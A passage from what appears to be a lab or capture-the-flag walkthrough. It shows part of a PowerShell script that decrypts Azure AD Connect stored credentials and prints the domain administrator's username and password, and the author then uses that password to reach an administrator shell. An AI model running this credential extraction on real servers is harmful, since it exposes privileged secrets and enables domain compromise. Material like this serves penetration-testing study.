 ```powershell
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

Uploading and running this script, I get access to administrator password which I can use gain access to administrator shell:

![](https://i.imgur.com/BZbCh9a.png)
## References
- https://blog.xpnsec.com/azuread-connect-for-redteam/?ref=t3chnocat.com